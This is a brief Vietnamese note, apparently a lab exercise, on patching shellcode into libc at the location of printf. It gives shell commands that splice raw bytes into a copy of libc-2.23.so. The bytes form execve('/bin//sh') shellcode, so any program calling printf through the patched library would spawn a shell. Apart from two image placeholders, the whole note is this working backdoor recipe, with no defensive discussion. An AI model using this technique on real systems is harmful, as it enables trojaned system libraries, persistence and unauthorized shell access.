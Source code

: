 Chèn shellcode vào vị trí của hàm printf trong libc

![alt text](image-1.png)

```sh
head -c 344224 /lib64/libc-2.23.so > libc.so.6
echo -ne '\x48\x31\xff\x48\x31\xf6\xe8\x65\x55\x0a\x00\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' >> libc.so.6
tail -c+344259 /lib64/libc-2.23.so >> libc.so.6
```

![alt text](image-2.png)